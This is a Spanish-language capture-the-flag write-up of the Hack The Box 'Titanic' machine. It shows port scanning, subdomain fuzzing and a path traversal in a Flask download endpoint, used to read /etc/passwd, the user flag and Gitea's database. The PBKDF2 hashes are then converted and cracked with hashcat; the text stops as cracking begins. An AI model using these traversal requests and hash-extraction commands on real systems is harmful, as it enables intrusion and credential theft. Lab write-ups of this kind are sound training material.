




# Copy of Copy of Titanic

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Titanic**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.55 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 22:54 CET
Initiating SYN Stealth Scan at 22:54
Scanning 10.10.11.55 [65535 ports]
Discovered open port 80/tcp on 10.10.11.55
Discovered open port 22/tcp on 10.10.11.55
Completed SYN Stealth Scan at 22:54, 12.22s elapsed (65535 total ports)
Nmap scan report for 10.10.11.55
Host is up, received user-set (0.038s latency).
Scanned at 2025-02-15 22:54:21 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65540 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.55
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` el servicio `SSH`habilitado

```bash
❯ nmap -sCV -p22,80 10.10.11.55 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 22:57 CET
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   89.47 ms 10.10.16.1
2   30.64 ms titanic.htb (10.10.11.55)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep titanic
10.10.11.55 titanic.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://titanic.htb/
http://titanic.htb/ [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```

Accedemos a [http://titanic.htb](http://titanic.htb) y nos encontramos con la siguiente página web, con pocas páginas funcionales a excepción de una opción que veremos a continuación.

<figure><figcaption></figcaption></figure>

Al darle a la opción de `Book Now` se nos abre un pop-up en el cual nos permite ingresar nuestros datos. Proporcionaremos datos inventados y le daremos a `Submit` para ver cómo reacciona la aplicación web.

<figure><figcaption></figcaption></figure>

Al darle a dicha opción, se nos intenta descargar un archivo `JSON`.

<figure><figcaption></figcaption></figure>

Analizamos el archivo que se nos ha descargado y comprobamos que es un`JSON` con los datos que se le han asignado en el formulario antes de darle al botón.

```bash
❯ cat 60868fee-0d5f-491d-a64a-8a583bc53b2f.json
{"name": "Gzzcoo", "email": "gzzcoo@titanic.htb", "phone": "666666666", "date": "1222-12-12", "cabin": "Standard"}
```

Realizaremos la misma prueba, pero esta vez interceptándolo a través de `BurpSuite` para validar cómo se tramita la petición al servidor.

Verificamos que al intentar enviar la solicitud por `POST`, se nos habilita la opción de `Follow Redirection` y además, en la respuesta por parte del servidor se nos muestra la ruta dónde seremos redirigidos.

<figure><figcaption></figcaption></figure>

Al realizar la redirección, visualizamos la siguiente respuesta por parte nuestra y del servidor. Por lo que parece ser, cuando se nos descarga el `JSON`, hace la llamada a `/download?ticket=`.

<figure><figcaption></figcaption></figure>

### Subdomain Enumeration

Realizamos una enumeración de subdominios de la aplicación web, finalmente logramos obtener el siguiente subdominio `dev.titanic.htb`.

```bash
❯ wfuzz --hw=28 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.titanic.htb" http://titanic.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                             
=====================================================================

000000821:   200        275 L    1278 W     13871 Ch    "dev" 
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep titanic
10.10.11.55 titanic.htb dev.titanic.htb
```

Realizaremos una enumeración básica para verificar las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb http://dev.titanic.htb/
http://dev.titanic.htb/ [200 OK] Apache[2.4.52], Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[_csrf,i_like_gitea], IP[10.10.11.55], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN]
```

Al acceder a [http://dev.titanic.htb](http://dev.titanic.htb) nos encontramos con la siguiente página de `Gitea`.


Gitea permite la creación y gestión de repositorios basados ​​en Git . También hace que la revisión de código sea increíblemente fácil y cómoda, mejorando la calidad del código para los usuarios y las empresas.


<figure><figcaption></figcaption></figure>

Al acceder a los repositorios públicos disponemos, nos encontramos con dos repositorios del usuario `developer`.

<figure><figcaption></figcaption></figure>

Accedemos al repositorio de `developer/docker-config` en el cual se muestran lo que parece ser archivos de configuración de los distintos contenedores que dispone la máquina **Titanic**.

<figure><figcaption></figcaption></figure>

Al acceder al archivo `docker-compose.yml` de `docker-config/gitea`, nos encontramos con el siguiente contenido.

En el cual se menciona que `Gitea` está montado en el volumen `/home/developer/gite/data`.

<figure><figcaption></figcaption></figure>

Al revisar el `docker-compose.yml` del repositorio `docker-config/mysql` logramos localizar las credenciales del usuario de la base de datos de `MySQL`. De momento estas credenciales no podemos utilizarlas.

<figure><figcaption></figcaption></figure>

Al acceder al otro repositorio llamado `developer/flask.app`, nos encontramos con el siguiente contenido. Revisando el `README.md`, parece ser que este repositorio es el de la página de [http://titanic.htb](http://titanic.htb), con lo cual, revisando su código fuente, quizás podríamos localizar alguna vulnerabilidad.

<figure><figcaption></figcaption></figure>

Dado que este repositorio dispone de más contenido que el resto, decidimos en descargarnos el repositorio en un comprimido para disponerlo localmente.

<figure><figcaption></figcaption></figure>

Descomprimiremos el archivo `.zip` y visualizamos la estructura del repositorio.

```bash
❯ unzip flask-app-main.zip
Archive:  flask-app-main.zip
f747049bc949526d9cd9bd45cfaeed6f6db92496
   creating: flask-app/
  inflating: flask-app/README.md     
  inflating: flask-app/app.py        
   creating: flask-app/static/
  inflating: flask-app/static/styles.css  
   creating: flask-app/templates/
  inflating: flask-app/templates/index.html  
   creating: flask-app/tickets/
  inflating: flask-app/tickets/2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json  
  inflating: flask-app/tickets/e2a629cd-96fc-4b53-9009-4882f8f6c71b.json 
   
❯ ls -l flask-app
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  static
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  templates
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  tickets
.rw-rw-r-- kali kali 1.4 KB Fri Aug  2 13:38:28 2024  app.py
.rw-rw-r-- kali kali 930 B  Fri Aug  2 13:38:28 2024  README.md
❯ tree
.
├── app.py
├── README.md
├── static
│   └── styles.css
├── templates
│   └── index.html
└── tickets
    ├── 2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json
    └── e2a629cd-96fc-4b53-9009-4882f8f6c71b.json

4 directories, 6 files
```

Al analizar los archivos `JSON` que se encontraban en `tickets`, no logramos visualizar contenido sensible ni nada, simplemente nombres de usuarios que quizás nos pudieran servir más adelante.

```bash
❯ cat tickets/*
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: tickets/2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ {"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: tickets/e2a629cd-96fc-4b53-9009-4882f8f6c71b.json
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ {"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Analizaremos el archivo `app.py` que al parecer, parecer ser el archivo de la función donde en la página web nos descargaba el `JSON` a través del formulario.eeeeeeeeeeeeeeeeee


```python
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

TICKETS_DIR = "tickets"

if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```


## Initial Access

### Path Traversal in the download\_ticket function on a web site

Revisando posibles vulnerabilidades en el código del archivo `app.py`, nos encontramos que existe la posibilidad de realizar un `Path Traversal`. Esto debido al parámetro `ticket` que no se encuentra validado correctamente en la función `download_ticket`.

<figure><figcaption></figcaption></figure>

Probaremos de explotar dicha vulnerabilidad para listar el contenido del `/etc/passwd` del equipo objetivo. Logramos visualizar el contenido, con lo cual confirmamos que somos capaces de leer archivos arbitrarios del sistema vulnerable.

```bash
❯ curl -s 'http://titanic.htb/download?ticket=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

También logramos visualizar directamente la flag de **user.txt**

```bash
❯ curl -s 'http://titanic.htb/download?ticket=../../../home/developer/user.txt'
b1a7050e29f63e8e97b196404f88e34a
```

En este punto, intentamos enumerar varios archivos sin obtener resultado ninguno.

Recordando que `Gitea` se encontraba montado en el volumen `/home/developer/gitea/data/`, lo que pensamos es que en quizás dentro de este directorio hubiese algún archivo de configuración o base de datos que pudiéramos revisar.

Por lo tanto, revisamos la documentación de `Gitea` el cual nos menciona exactamente lo mismo.



Después de varias pruebas, logramos obtener el contenido del archivo de la base de datos de `Gitea`.

```bash
❯ curl -s 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' --output gitea.db
❯ ls -l gitea.db
.rw-rw-r-- kali kali 2.0 MB Sat Feb 15 23:18:53 2025  gitea.db
❯ file gitea.db
gitea.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 563, database pages 509, cookie 0x1d9, schema 4, UTF-8, version-valid-for 563
```

### SQL Enumeration

Abriremos el archivo `gitea.db` para realizar una enumeración de las tablas, entre las cuales nos encontramos la tabla `user`.

```bash
❯ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook  
```

Comprobamos el contenido de la tala `user`, en el cual se nos proporcionaban 2 usuarios de `Gitea` con sus credenciales en formato hash `PBKDF2`.

```bash
sqlite> SELECT * FROM user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

Revisaremos las columnas y el formato en el que se encuentran los datos.

```bash
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `keep_email_private` INTEGER NULL, `email_notifications_preference` TEXT DEFAULT 'enabled' NOT NULL, `passwd` TEXT NOT NULL, `passwd_hash_algo` TEXT DEFAULT 'argon2' NOT NULL, `must_change_password` INTEGER DEFAULT 0 NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER DEFAULT 0 NOT NULL, `login_name` TEXT NULL, `type` INTEGER NULL, `location` TEXT NULL, `website` TEXT NULL, `rands` TEXT NULL, `salt` TEXT NULL, `language` TEXT NULL, `description` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL, `last_login_unix` INTEGER NULL, `last_repo_visibility` INTEGER NULL, `max_repo_creation` INTEGER DEFAULT -1 NOT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `is_restricted` INTEGER DEFAULT 0 NOT NULL, `allow_git_hook` INTEGER NULL, `allow_import_local` INTEGER NULL, `allow_create_organization` INTEGER DEFAULT 1 NULL, `prohibit_login` INTEGER DEFAULT 0 NOT NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `use_custom_avatar` INTEGER NULL, `num_followers` INTEGER NULL, `num_following` INTEGER DEFAULT 0 NOT NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL, `visibility` INTEGER DEFAULT 0 NOT NULL, `repo_admin_change_team_access` INTEGER DEFAULT 0 NOT NULL, `diff_view_style` TEXT DEFAULT '' NOT NULL, `theme` TEXT DEFAULT '' NOT NULL, `keep_activity_private` INTEGER DEFAULT 0 NOT NULL);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
CREATE INDEX `IDX_user_is_active` ON `user` (`is_active`);
CREATE INDEX `IDX_user_created_unix` ON `user` (`created_unix`);
CREATE INDEX `IDX_user_updated_unix` ON `user` (`updated_unix`);
CREATE INDEX `IDX_user_last_login_unix` ON `user` (`last_login_unix`);
```

Probamos de intentar crackear los hashes obtenidos, pero no obtuvimos resultado, esto debido que el hash no era válido como tal.

```bash
❯ echo 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' > hashes
❯ hashid 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
Analyzing 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
[+] Unknown hash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

No hash-mode matches the structure of the input hash.

Started: Sat Feb 15 23:21:54 2025
Stopped: Sat Feb 15 23:21:56 2025

```

A través de `sqlitebrowser`, podemos verificar el contenido de la tabla `user` de manera más visual.

```bash
❯ sqlitebrowser gitea.db
```

<figure><figcaption></figcaption></figure>

### Cracking Gitea Hashes (PBKDF2)

Realizando una búsqueda por Internet de cómo intentar crackear el hash `pbkdf2`, nos encontramos con la siguiente página web en la cual `0xdf` en una máquina de HTB al parecer realizó algo parecido.

<figure><figcaption></figcaption></figure>

Al acceder al contenido de ese writeup, nos encontramos del proceso que se realizó para crackear el hash de Gitea.

<figure><figcaption></figcaption></figure>

El formato que espera `hashcat` es el siguiente, el modo `10900`.

<figure><figcaption></figcaption></figure>



A través del siguiente foro, se proporciona información de como intentar crackear estos hashes de Gitea de `PBKDF2`.



<figure><figcaption></figcaption></figure>

En este caso, hemos obtenido unos hashes de una base de datos de Gitea que utiliza el algoritmo PBKDF2 para la protección de contraseñas. El hash está compuesto por un digest y una sal (salt), y el campo `passwd_hash_algo` indica que se utiliza el esquema `pbkdf2$50000$50`, lo que sugiere que se aplican 50,000 rondas de iteración. Los valores de la sal y el digest están codificados en base64, lo cual facilita la manipulación con herramientas estándar para intentar crackear la contraseña.

Una vez obtenemos el hash, lo convertimos de base64 a su formato original en bytes utilizando el siguiente comando.

Esto nos permite obtener el formato adecuado para proceder con el cracking. Con el hash y la sal ya listos, utilizamos herramientas como `hashcat` o `John the Ripper` para intentar crackear el hash. El proceso puede ser bastante intensivo debido al alto número de rondas (50,000), pero es factible si se tiene el poder computacional necesario.

```bash
❯ sqlite3 gitea.db "select passwd from user" | while read hash; do echo "$hash" | xxd -r -p | base64; done
y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Para obtener un formato más adecuado para usar con herramientas como Hashcat, podemos modificar el proceso que seguimos anteriormente. En este caso, estamos obteniendo los valores de las contraseñas y las sales de la base de datos de Gitea, y luego formateamos la salida para que se ajuste al formato de Hashcat, que es `username:sha256:iterations:salt:digest`.

Este comando extrae cada campo `passwd` (contraseña), `salt` (sal) y `name` (nombre de usuario) de la base de datos de Gitea, los convierte de hexadecimal a binario, luego los codifica en base64, y finalmente organiza todo en el formato adecuado para Hashcat.

De esta forma, tenemos los datos listos para ser procesados por Hashcat o cualquier otra herramienta que utilice este formato. Este formato sigue el patrón de Hashcat, donde se indica el algoritmo de hash (sha256), el número de iteraciones (50000), la sal (salt) y el digest de la contraseña.

```bash
❯ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Con el formato correcto y la herramienta adecuada, como Hashcat, podemos proceder con el cracking de los hashes de Gitea. En este caso, estamos utilizando el modo de ataque `-a 0` para un ataque de diccionario, y el tipo de hash `-m 10900` para PBKDF2-SHA256.

Este comando hace lo siguiente:

1. `-a 0`: Modo de ataque de diccionario (ataque basado en un archivo de palabras, como `rockyou.txt`).
2. `-m 10900`: Especifica el tipo de hash, que en este caso es PBKDF2 con SHA256 (esto es crucial porque le dice a Hashcat cómo manejar los hashes).
3. `gitea.hashes`: El archivo que contiene los hashes en el formato correcto para Hashcat.
4. `/usr/share/wordlists/rockyou.txt`: El archivo de palabras (diccionario) que Hashcat utilizará para intentar crackear las contraseñas.
5. `--user`: Este argumento se utiliza porque los hashes incluyen el nombre de usuario, lo que significa que Hashcat debe reconocerlo como parte de la entrada.

Finalmente logramos obtener la contraseña en texto plano del usuario `developer`.

```bash
❯ hashcat -a 0 -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
